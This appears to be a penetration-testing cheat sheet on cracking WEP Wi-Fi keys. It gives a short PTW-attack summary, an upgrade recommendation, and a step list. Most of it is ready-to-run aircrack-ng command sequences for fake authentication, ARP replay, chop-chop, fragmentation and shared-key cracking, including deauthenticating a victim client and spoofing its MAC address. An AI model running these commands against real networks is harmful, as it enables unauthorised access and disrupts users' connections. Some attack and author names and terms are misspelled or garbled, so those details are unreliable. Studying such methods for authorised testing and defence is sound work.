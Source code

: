 # PTW Attack (WEP Cryptographic Exploitation) 
An attacker can recover the WEP keys with relatively few packets. The Pychkine, Tews, Weinmann (PTW) attack utilizes ARP response data and recognizes over 5.5 million weak initialization vectors (IV), leading to WEP key recovery. Collecting 85,000 data frames provides a reasonable probability of success for crucial recovery and can be completed in a few minutes. 

Recommendations: WEP is flawed because it only encrypts data packets and uses the stream cipher RC4. REDSEC recommends implementing a more robust security protocol like WPA2 or WPA3.

## WEP Attack Process:

    1. Check the SSID and analyze whether SSID is Visible or Hidden.
    2. Check for networks using WEP encryption.
    3. If you find the SSID as visible mode then try to sniff the traffic and check the packet capturing status.
    4. If the packet has been successfully captured and injected then it’s time to break the WEP key - Aircrack-ng or WEPcrack.
    5. If packets are not reliably captured then sniff the traffic again and capture the Packet.
    6. If SSID is in 'Hidden' mode, then Deauthenticate the target client - Commview and Airplay-ng.
    7. Once successfully authenticated with the client and the discovered SSID, then follow the above steps to rediscover other SSIDs.
    8. Check if the Authentication method used is OPN (Open Authentication) or SKA (Shared Key Authentication). 
        If SKA is used, then bypassing mechanism needs to be performed.
        
    9. Check if the STA (stations/clients) are connected to the AP. This information is necessary to perform the attack.
       - If clients are connected - an Interactive packet replay or ARP replay attack needs to be performed to gather 
           IV packets which can be then used to crack the WEP key.
           
       - If there’s no client connected to the AP, Fragmentation Attack or Korex Chop Chop attack needs to be performed 
           to generate the keystream which will be further used to reply to ARP packets.
           
    10. Once the WEP key is cracked, connect to the network using WPA-supplicant and check if the AP is allotting any IP addresses.

### Fake Authentication Attack:

    1. airmon-ng start wlan0
    2. airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
    3. macchanger --show wlan0mon
    4. aireplay-ng -1 0 -a <BSSID> -h <OurMac> -e <ESSID> wlan0mon
    5. aireplay-ng -2 –p 0841 –c FF:FF:FF:FF:FF:FF –b <BSSID> -h <OurMac> wlan0mon
    6. aircrack-ng –b <BSSID> <PCAP_of_FileName>
    Other tools that could be used: 
        wifite & Airgeddon.sh (All Attacks in one tool (Replay, Chopchop, Fragment, Hirte, P0841, Caffe-latte)

### ARP Replay Attack:

    1. airmon-ng start wlan0
    2. airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
    3. macchanger --show wlan0mon
    4. aireplay-ng -3 –x 1000 –n 1000 –b <BSSID> -h <OurMac> wlan0mon
    5. aircrack-ng –b <BSSID> <PCAP_of_FileName>

### Chop Chop Attack:

    1. airmon-ng start wlan0
    2. airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
    3. macchanger --show wlan0mon
    4. aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
    5. aireplay-ng -4 –b <BSSID> -h <OurMac> wlan0mon
    6. #Press ‘y’ ;
    7. packetforge-ng -0 –a <BSSID> -h <OurMac> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
    8. aireplay-ng -2 –r <FileName2> wlan0mon
    9. aircrack-ng <PCAP_of_FileName>

### Fragmentation Attack:

    1. airmon-ng start wlan0
    2. airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
    3. macchanger --show wlan0mon
    4. aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
    5. aireplay-ng -5 –b<BSSID> -h < OurMac > wlan0mon
    6. #Press ‘y’ ;
    7. packetforge-ng -0 –a <BSSID> -h < OurMac > -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
    8. aireplay-ng -2 –r <FileName2> wlan0mon
    9. aircrack-ng <PCAP_of_FileName>

### SKA (Shared Key Authentication) Type Cracking:

    1. airmon-ng start wlan0
    2. airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
    3. aireplay-ng -0 10 –a <BSSID> -c <VictimMac> wlan0mon
    4. ifconfig wlan0mon down
    5. macchanger –-mac <VictimMac> wlan0mon
    6. ifconfig wlan0mon up
    7. aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon
    8. aireplay-ng –-deauth 1 –a <BSSID> -h <FakedMac> wlan0mon
    9. aircrack-ng <PCAP_of_FileName>
